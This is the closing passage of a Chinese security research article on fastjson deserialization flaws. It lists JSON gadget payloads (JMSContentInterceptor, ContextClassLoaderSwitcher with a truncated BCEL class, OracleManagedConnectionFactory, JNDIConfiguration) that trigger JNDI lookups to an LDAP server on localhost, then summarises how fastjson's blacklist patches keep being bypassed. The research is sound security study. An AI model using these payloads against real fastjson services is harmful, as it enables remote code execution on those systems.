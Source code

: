 ```json
}
```
JMSContentInterceptor
```json
{
	"@type": "org.apache.cocoon.components.slide.impl.JMSContentInterceptor",
	"parameters": {
		"@type": "java.util.Hashtable",
		"java.naming.factory.initial": "com.sun.jndi.rmi.registry.RegistryContextFactory",
		"topic-factory": "ldap://127.0.0.1:23457/Command8"
	},
	"namespace": ""
}
```

ContextClassLoaderSwitcher
```json
{
	"@type": "org.jboss.util.loading.ContextClassLoaderSwitcher",
	"contextClassLoader": {
		"@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
	},
	"a": {
		"@type": "$$BCEL$$$l$8b$I$A$A$A$A$A$A$AmS$ebN$d4P$...$A$A"
	}
}
```
OracleManagedConnectionFactory
```json
{
	"@type": "oracle.jdbc.connector.OracleManagedConnectionFactory",
	"xaDataSourceName": "ldap://127.0.0.1:23457/Command8"
}
```
JNDIConfiguration
```json
{
	"@type": "org.apache.commons.configuration.JNDIConfiguration",
	"prefix": "ldap://127.0.0.1:23457/Command8"
}
```

# 五、总结

通过全篇对 fastjson 诸多版本漏洞的学习和研究，可以发现作者不愿舍弃很多特性，而不停的在对程序的安全检查部分进行“打补丁”一样的漏洞修复手段，这就导致了很多漏洞反反复复的修补和绕过，不仅仅是新的 gadget 被挖掘出来需要 fastjson 不断的更新黑名单，更有很多特性点还是隐藏在程序中等待发现，其实从本文来讲，很多触发点我们只研究了其中的一种，如果肯花时间寻找调用方式，肯定还会有新的发现。
